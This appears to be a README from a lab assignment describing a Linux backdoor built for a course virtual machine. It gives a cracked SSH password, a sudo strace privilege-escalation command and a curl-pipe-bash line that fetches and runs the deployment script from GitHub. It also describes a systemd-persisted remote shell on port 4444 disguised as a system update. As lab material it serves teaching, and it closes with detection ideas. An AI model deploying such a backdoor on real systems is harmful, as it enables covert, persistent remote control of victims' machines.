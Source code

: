 # Project

Project File Overview<br><br>
Bash Scripts (Deployed on Target):

- backdoor: Deployment script

- sys-upd: Downloads and executes the server

- sys-upd.service: systemd service unit file

Python Scripts:

- sys.py: Backdoor listener (server side)

- access.py: Client interface (run from attacker machine)

A) how to install it in the week4 virtual machine,

Enable the host to communicate with the VM over port 4444, add this rule in VirtualBox:

Go to Settings > Network > Adapter 1 → click Port Forwarding

Add the following rule:<br>
Name: backdoor-link<br>
Protocol: TCP<br>
Host IP: 127.0.0.1<br>
Host Port: 4444<br>
Guest IP: (leave blank or default)<br>
Guest Port: 4444<br>

___________________________________

ssh into the week4 virtual machine:<br>
User: user<br>
Password: hill<br>

Note: (I analyzed the .pcapng file in Wireshark and identified an HTTP response containing user data. A hashed password for the user user stood out. Using John the Ripper with the rockyou.txt wordlist, I successfully cracked the hash and retrieved the password: hill.)

___________________________________


To escalate privileges use this command:

Command: sudo strace -o /dev/null /bin/bash<br>
Command: cd (Change Directory)<br>
Command: curl -s https://raw.githubusercontent.com/Hussnain-Khan/backdoor/main/Bash/backdoor | bash<br>

___________________________________


Once this done, Clone the reopsitory in your system and navigate from terminal to Python folder directory and run <br>
`python sys.py`

B) how your backdoor works internally

- Our backdoor operates by deploying a persistent listener on the target machine using a Bash script (sys-upd) managed by a systemd service (sys-upd.service). This script opens TCP port 4444 and runs the Python server (sys.py) which continuously listens for incoming connections. 

- When a connection is received, it prompts for a password (week4) to authenticate the client. Upon successful login, the server receives and executes shell commands from the client (access.py) and sends back the results. 

- All communication is socket-based and occurs over the specified port, enabling the attacker to remotely control the host shell in real time while maintaining persistence across reboots.

___________________________________

C) how your backdoor works internally

1. Remote Shell Access

- The sys.py script binds to port 4444 and listens for incoming connections. Once authenticated, it enters a loop waiting for shell commands from the attacker. The command is executed via subprocess.Popen() and results are sent back to the attacker.

2. Persistence

- Persistence is achieved using a systemd service (sys-upd.service). The backdoor is enabled to auto-start on boot using systemctl enable sys-upd, ensuring the listener runs continuously.

3. Configuration to get commands from:

- Commands are received over the network socket (TCP on port 4444). The sys.py server waits for incoming commands from the client and executes them directly.

4. Authentication

- The backdoor requires a password (week4) before allowing shell access. If the password is incorrect, the connection is closed and access is denied.

5. Hiding from Detection

- The backdoor is disguised as a system update script: sys-upd. It is placed in the /root directory and registered as a systemd service with a generic name.. Minimal console output and error handling are included to avoid raising suspicion.

___________________________________

D) ideas on how yourbackdoor could be detected.

- The backdoor can be detected using tools like Wireshark by identifying unusual traffic on port 4444.It may also be exposed through system audits by spotting suspicious services like sys-upd.service or by detecting scripts fetched from GitHub. Security tools or EDRs could flag the listener's behavior of executing remote shell commands.